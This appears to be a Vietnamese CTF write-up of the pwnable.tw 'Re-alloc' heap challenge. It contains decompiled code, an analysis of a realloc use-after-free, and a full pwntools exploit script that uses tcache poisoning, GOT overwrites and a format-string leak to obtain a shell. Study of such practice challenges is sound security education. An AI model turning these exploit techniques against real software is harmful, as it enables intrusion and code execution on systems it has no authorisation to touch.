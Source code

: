 ```yaml
---
title:  "Pwnable.tw - Re-alloc"
date:   2025-03-25 10:00:00 +0700
header:
  teaser: "/assets/images/2025-03-25-pwntw-realloc/Screenshot 2025-03-25 172442.png"
tags:
  - pwnable.tw
  - elf
  - heap
  - use-after-free
  - tcache-poisoning
  - realloc
---
```


![Challenge description](/assets/images/2025-03-25-pwntw-realloc/Screenshot%202025-03-25%20172442.png){:class="img-responsive"}

## Phân tích
### Tổng quan
Challenge cho ta một elf binary cùng với libc phiên bản 2.29. RELRO và PIE tắt.  
![Checksec](/assets/images/2025-03-25-pwntw-realloc/Screenshot%202025-03-26%20120846.png){:class="img-responsive"}  
Chương trình có 4 chức năng:
1. Alloc 1 chunk có index, size và data được user chỉ định. Giá trị size phải nhỏ hơn 0x78 (Vừa với tcache).  
```cpp
int allocate()
{
  _BYTE *v0; 
  unsigned __int64 v2; 
  unsigned __int64 size; 
  void *v4; 

  printf("Index:");
  v2 = read_long();
  if ( v2 > 1 || heap[v2] ) {
    LODWORD(v0) = puts("Invalid !");
  }
  else {
    printf("Size:");
    size = read_long();

    // tcache limit
    if ( size <= 0x78 ) { 
      v4 = realloc(0LL, size);

      // alloc thành công
      if ( v4 ) { 
        heap[v2] = v4;
        printf("Data:");
        v0 = (_BYTE *)(heap[v2] + read_input(heap[v2], (unsigned int)size));
        *v0 = 0;
      }
      else {
        LODWORD(v0) = puts("alloc error");
      }
    }
    else {
      LODWORD(v0) = puts("Too large!");
    }
  }
  return (int)v0;
}
```
2. Re-alloc 1 chunk đã được alloc trước đó với size và data mới.
```cpp
int reallocate() {
  unsigned __int64 v1; 
  unsigned __int64 size; 
  void *v3; 

  printf("Index:");
  v1 = read_long();
  if ( v1 > 1 || !heap[v1] )
    return puts("Invalid !");
  printf("Size:");
  size = read_long();
  if ( size > 0x78 )
    return puts("Too large!");
  v3 = realloc((void *)heap[v1], size);
  if ( !v3 )
    return puts("alloc error");
  heap[v1] = v3;
  printf("Data:");
  return read_input(heap[v1], (unsigned int)size);
}
```
3. Free 1 chunk có index được user chỉ định. Sau khi free có đặt lại pointer về null nên sẽ không có lỗi ở đây.
```cpp
int rfree() {
  void *v0; 
  unsigned __int64 v2; 

  printf("Index:");
  v2 = read_long();
  if ( v2 > 1 ) {
    LODWORD(v0) = puts("Invalid !");
  }
  else {
    realloc(*((void **)&heap + v2), 0LL);
    v0 = &heap;
    *((_QWORD *)&heap + v2) = 0LL;
  }
  return (int)v0;
}
```
4. Thoát chương trình.

Ngoài ra, chương trình chỉ cho phép 2 chunk tồn tại đồng thời (index là 0 hoặc 1), việc này được kiểm soát bởi global array **heap**.
### Hiểu về hàm realloc
Điều đáng chú ý ở challenge này là nó dùng hàm realloc để thực hiện cả 3 thao tác chính. Dựa theo [man page](https://man7.org/linux/man-pages/man3/realloc.3p.html) và [source code](https://elixir.bootlin.com/glibc/glibc-2.29/source/malloc/memusage.c#L379) của realloc:
1. realloc(NULL, size): giống như malloc.
2. realloc(ptr, size): dealloc (không phải free) chunk cũ và alloc 1 chunk mới với size mới với data giống với chunk cũ, độ dài của data phù hợp với chunk nhỏ hơn. Nếu size mới bằng size cũ thì realloc không làm gì cả.
3. realloc(ptr, 0): giống như free.

Dựa vào những điều trên, ta xác định được lỗi use-after-free ở chức năng thứ 2 của chương trình do không kiểm tra size được nhập bởi user.  
## Khai thác
Với hạn chế size của mọi chunk phải ở trong vùng tcache thì ý tưởng khai thác chính của ta sẽ là dùng kỹ thuật tcache-poisoning.  
Các bước khai thác:
1. Ghi đè got_atoll thành plt_printf (chọn atoll do ta có thể kiểm soát hoàn toàn tham số của nó).
2. Leak libc base bằng lỗi format-string vừa tạo ra.
3. Vẫn dùng lỗi format-string, ghi đè tất cả các giá trị trong mảng **heap** về null nhằm tránh lỗi khi alloc về sau.
4. Ghi đè got_atoll thành system, thao tác tương tự bước 1 (lưu ý printf trả về số kí tự được in thành công)
5. Lấy shell
```python
#!/usr/bin/python3
from pwn import *

context.binary = elf = ELF("./re-alloc_patched", checksec = False)
libc = ELF("./libc.so.6", checksec = False)

# con = process()
con = remote("chall.pwnable.tw", 10106)

def debug_from_here():
    gdb.attach(con, gdbscript = '''
        b*main+0x6f
        b*main+0x7b
        b*main+0x87
    ''')
    input()

def alloc(idx, size, data):
    con.sendlineafter(b"Your choice: ", b"1")
    con.sendlineafter(b"Index:", idx)
    con.sendlineafter(b"Size:", size)
    con.sendlineafter(b"Data:", data)

def realloc(idx, size, data):
    con.sendlineafter(b"Your choice: ", b"2")
    con.sendlineafter(b"Index:", idx)
    con.sendlineafter(b"Size:", size)
    if (size != b"0" and size != b"\0"):
        con.sendlineafter(b"Data:", data)
    
def free(idx):
    con.sendlineafter(b"Your choice: ", b"3")
    con.sendlineafter(b"Index:", idx)

### Stage 1: overwrite got_atoll -> plt_printf
alloc(b"0", f"{0x10}", b"abcd0")                # heap[0] = p1
realloc(b"0", b"0", "")                         # heap[0] = p1; tcache[0x20] = [p1]
realloc(b"0", f"{0x10}", p64(elf.got['atoll'])) # heap[0] = p1; tcache[0x20] = [p1 -> atoll_got -> ...]
alloc(b"1", f"{0x10}", b"abcd1")                # heap[0] = p1, heap[1] = p1; tcache[0x20] = [atoll_got -> ...]

realloc(b"1", f"{0x20}", b"abcd1")              # heap[0] = p1, heap[1] = p2; tcache[0x20] = [atoll_got -> ...]
free(b'1')                                      # heap[0] = p1, heap[1] = 0; tcache[0x20] = [atoll_got -> ...], tcache[0x30] = [p2]
alloc(b"1", f"{0x10}", p64(elf.plt['printf']))  # heap[0] = p1, heap[1] = atoll_got; tcache[0x20] = [...], tcache[0x30] = [p2]

### Stage 2: leak libc base
free(b"%7$p")
libc.address = int(con.recvline().strip(b"\n"), 16) - 0x1e5760
log.success(hex(libc.address))

### Stage 3: clear heap array
free(b"%9$n".ljust(8) + p64(elf.sym['heap']))
free(b"%9$n".ljust(8) + p64(elf.sym['heap'] + 8))

### Stage 4: overwrite got_atoll -> system
alloc(b"\0", f"%{0x2f}c", b"abcd0")                  # heap[0] = p1
realloc(b"\0", b"\0", b"")                           # heap[0] = p1; tcache[0x40] = [p1]
realloc(b"\0", f"%{0x2f}c", p64(elf.got['atoll']))   # heap[0] = p1; tcache[0x40] = [p1 -> atoll_got -> ...]
alloc(b"1\0", f"%{0x2f}c", b"abcd1")                 # heap[0] = p1, heap[1] = p1; tcache[0x40] = [atoll_got -> ...]

realloc(b"1\0", f"%{0x3f}c", b"abcd1")               # heap[0] = p1, heap[1] = p2; tcache[0x40] = [atoll_got -> ...]
free(b'1\0')                                         # heap[0] = p1, heap[1] = 0; tcache[0x40] = [atoll_got -> ...], tcache[0x50] = [p2]
alloc(b"1\0", f"%{0x2f}c", p64(libc.sym['system']))  # heap[0] = p1, heap[1] = atoll_got; tcache[0x40] = [...], tcache[0x50] = [p2]

### Stage 5: get shell
free(b"/bin/sh")

con.interactive()

```
![Solved](/assets/images/2025-03-25-pwntw-realloc/Screenshot%202025-03-26%20120324.png){:class="img-responsive"}
